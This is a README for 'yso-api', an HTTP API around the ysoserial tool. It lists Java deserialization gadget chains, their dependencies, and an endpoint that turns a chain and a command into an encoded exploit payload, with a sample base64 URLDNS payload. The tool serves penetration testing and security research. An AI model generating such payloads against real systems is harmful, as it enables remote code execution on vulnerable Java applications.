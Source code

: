 # YSO-API
### API for ysoserial-all.jar

---

# ysoserial-all.jar
https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar

 

# Install & Launch
```
git clone https://github.com/NinjaGPT/yso-api/ && cd yso-api
pip install -r requirements.txt
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
python3 yso-api.py
```
default service port is 22222

# ⚠ Reminder
 ```
In Java 9 and later, the module system introduced stricter access control, restricting
reflective access to non-public members. So in the use of ysoserial generated content
will meet InaccessibleObjectException errors
​
Solution:
1. Uses Java 8
If possible, Java 8 can be used to generate the payload, which is not limited by the module system.
​
2. Adjust JVM startup parameters
You can use the JVM startup parameter to open access to the java.net module. This can be done by adding the following parameters:
--add-opens java.base/java.net=ALL-UNNAMED
```

# Usage

## Gain Gadget Chains Supported
```
Path:    http://yso-api-server:22222/yso/chains
Mothod:  GET
Params:  N/A
```
#### Response sample
```
{"gadget_chains":["AspectJWeaver","BeanShell1","C3P0","Click1","Clojure","CommonsBeanutils1",
  "CommonsCollections1","CommonsCollections2","CommonsCollections3","CommonsCollections4",
  "CommonsCollections5","CommonsCollections6","CommonsCollections7","FileUpload1","Groovy1",
  "Hibernate1","Hibernate2","JBossInterceptors1","JRMPClient","JRMPListener","JSON1",
  "JavassistWeld1","Jdk7u21","Jython1","MozillaRhino1","MozillaRhino2","Myfaces1",
  "Myfaces2","ROME","Spring1","Spring2","URLDNS","Vaadin1","Wicket1"]}
```

## Gain Dependencies Of Specific Gadget Chains
```
Path:    http://yso-api-server:22222/yso/deps
Method:  GET
Params:  chain=[chain_name]
```

#### Request sample:
```
http://yso-api-server:22222/yso/deps?chain=Spring1
```

#### Response sample
```
{"Spring1":"spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE"}
```

## Gain dependencies of specific gadget chains
```
Path:    http://localhost:22222/yso/payload
Method:  GET
Params:  chain=[chain_name],  cmd=[command_or_url],  encode=[encoder]

base64 and xxd encoders are supported by default, you can add more what you want.
```
#### Request sample:
```
http://localhost:22222/yso/payload?chain=URLDNS&cmd=http://google.com/&encode=base64
```
#### Response sample:
```
{"payload":"rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmV
zaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IADGphdmEubmV0LlVSTJYlNzYa/ORyAwAHSQAIaGFzaENvZGVJAA
Rwb3J0TAAJYXV0aG9yaXR5dAASTGphdmEvbGFuZy9TdHJpbmc7TAAEZmlsZXEAfgADTAAEaG9zdHEAfgADTAAIc
HJvdG9jb2xxAH4AA0wAA3JlZnEAfgADeHD//////////3QACmdvb2dsZS5jb210AAEvcQB+AAV0AARodHRwcHh0
ABJodHRwOi8vZ29vZ2xlLmNvbS94"}
```
---
## Screenshot
<img width="1019" alt="image" src="https://github.com/user-attachments/assets/72207db7-9e7a-4c43-9865-e7fe9ef83f35">

